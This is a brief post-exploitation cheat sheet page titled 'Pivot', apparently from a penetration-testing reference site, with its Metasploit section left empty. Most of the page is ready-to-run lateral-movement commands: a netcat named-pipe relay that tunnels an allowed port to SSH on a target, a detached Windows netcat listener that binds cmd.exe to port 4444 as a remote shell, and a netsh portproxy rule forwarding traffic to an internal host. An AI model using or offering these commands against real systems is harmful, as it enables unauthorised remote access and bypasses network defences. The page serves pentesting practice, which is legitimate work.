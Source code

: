 ```yaml
---
title: Pivot
category: Post-Exploitation
order: 97
---
```


>**Metasploit and Meterpreter**
{% highlight bash %}


{% endhighlight %}

> **Netcat Relay** 

Relay | <code> Mknod backpipe p <br> nc -l -p [allowed_inbound_port] 0<backpipe | nc 127.0.0.1 22 1>backpipe <br> ssh login@[target] -p [allowed_inbound_port] </code>
Remote Netcat (detached) | <code> nc.exe -d -l -p 4444 -e cmd.exe </code>

> **netsh pivot** 

netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=<RPORT> connectaddress=<RHOST>

> **useful resources** 

http://pentestmonkey.net/cheat-sheet/ssh-cheat-sheet

